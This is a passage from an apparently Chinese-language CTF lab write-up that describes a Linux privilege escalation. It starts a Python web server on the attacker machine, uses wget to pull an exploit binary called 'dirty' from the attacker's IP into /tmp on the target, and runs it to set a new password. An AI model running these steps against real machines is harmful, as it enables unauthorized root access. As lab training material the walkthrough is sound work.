 #### 攻击机架设web服务

```linux
python3 -m http.server 80
```

#### 靶机上下载dirty

```linux
cd /tmp
wget http://192.168.128.129/dirty  //获取攻击机上的dirty
```

![image-20230524174432380](CTF靶场渗透image/image-20230524174432380.png)

#### 提权

```linux
./dirty new_passwd //任意新密码
```

![image-20230524175107853](CTF靶场渗透image/image-20230524175107853.png) 
